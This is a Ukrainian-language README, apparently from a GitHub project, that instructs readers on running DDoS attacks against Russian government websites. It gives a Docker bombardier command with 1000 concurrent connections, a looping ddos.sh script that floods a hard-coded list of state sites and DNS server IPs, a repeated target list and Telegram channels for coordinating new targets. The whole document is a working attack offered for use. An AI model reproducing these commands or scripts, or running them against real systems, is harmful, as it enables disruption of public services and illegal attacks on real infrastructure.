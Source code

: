# Android/iOS
**Впевніться, що у вас достатньо заряду акумулятора та є доступ до зарядки**  
1. За можилвості встановіть VPN (сервіси дуже швидко блокують ip адреси з України)  
- [F-Secure](https://www.f-secure.com/en/home/login)  
- [список альтернативних сервісів](https://t.me/c/1627443142/3)  
2. [Android/iOS]  
Просто відкрийте і залиште сайт відкритим - [https://stop-russian-desinformation.near.page/](https://stop-russian-desinformation.near.page/) 
3. [Android]  
[Встановіть додаток та слідуйте туторіалу за посиланням](https://telegra.ph/YAk-ddositi-na-telefon%D1%96-02-24)  
Нові адреси для ddos атаки публікуються в [Telegram каналі](https://t.me/+97Y45he5lOI2ZTky)  

# Windows/Mac/Linux
1. Встановіть [Docker](https://www.docker.com/products/docker-desktop)
2. Встановіть VPN 
- [F-Secure](https://www.f-secure.com/en/home/login) - РЕКОМЕНДОВАНО
- [ProtonVPN](https://protonvpn.com/download)
- [Windscribe](https://windscribe.com/download)
- [ClearVPN](https://my.clearvpn.com/enter)
- [Urban VPN](https://www.urban-vpn.com/)
4. Запустіть в терміналі команду
```
docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
```
(замініть `https://www.gosuslugi.ru` на необхідний сайт - нові адреси для ddos атаки публікуються в [Telegram каналі](https://t.me/+97Y45he5lOI2ZTky))  
**Ви можете відкрити декілька вікон терміналу**  

# Канали для новин та координації
- [https://t.me/+97Y45he5lOI2ZTky](https://t.me/+97Y45he5lOI2ZTky)
- [https://t.me/ddosRussians](https://t.me/ddosRussians)
- [https://t.me/itguildukraine](https://t.me/itguildukraine)

# Доповнення  
Можете створити файл `ddos.sh` з контентом:
```
#!/bin/bash -x
DESTS=( "http://duma.gov.ru/" "http://president-sovet.ru/" "https://sovetnational.ru/" "https://www.gosuslugi.ru/ru/" "https://zakupki.gov.ru/epz/main/public/home.html" "https://gossluzhba.gov.ru/" "http://defence.council.gov.ru/" "http://budget.council.gov.ru/" "http://www.kremlin.ru/" "https://government.ru/" "http://www.scrf.gov.ru/" "http://www.ksrf.ru/ru/Pages/default.aspx" "http://www.vsrf.ru/" "http://premier.gov.ru/events/" "https://www.mchs.gov.ru/" "https://minjust.gov.ru/ru/" "http://www.fsb.ru/" "https://rosguard.gov.ru/" "https://customs.gov.ru/" "https://udprf.ru/" "http://favt.gov.ru/" "http://194.67.2.109:53/UDP" "http://194.67.7.1:53/UDP" "http://194.54.14.187:53/UDP" "http://194.54.14.186:53/UDP" )
TIME="180s"
while TRUE
do
   for DEST in ${DESTS[@]}
   do
       docker run -ti --rm alpine/bombardier -c 1000 -d $TIME -l $DEST
   done
done
```
та запустити з допомогою команди `chmod +x ddos.sh && sh ddos.sh` в терміналі  

# Корисні ресурси
- [Туторіал по DDoS](https://tarahtino.notion.site/tarahtino/DDoS-1505b74f6f8443768dc47e0f4d2ee8b2)

## Ресурси для атаки (краще слідкувати за апдейтами в Telegram)
`http://duma.gov.ru/` `http://president-sovet.ru/` `https://sovetnational.ru/` `https://www.gosuslugi.ru/ru/` `https://zakupki.gov.ru/epz/main/public/home.html` `https://gossluzhba.gov.ru/` `http://defence.council.gov.ru/` `http://budget.council.gov.ru/` `http://www.kremlin.ru/` `https://government.ru/` `http://www.scrf.gov.ru/` `http://www.ksrf.ru/ru/Pages/default.aspx` `http://www.vsrf.ru/` `http://premier.gov.ru/events/` `https://www.mchs.gov.ru/` `https://minjust.gov.ru/ru/` `http://www.fsb.ru/` `https://rosguard.gov.ru/` `https://customs.gov.ru/` `https://udprf.ru/` `http://favt.gov.ru/`

[Contribute](https://github.com/domanskyi/xsquad)
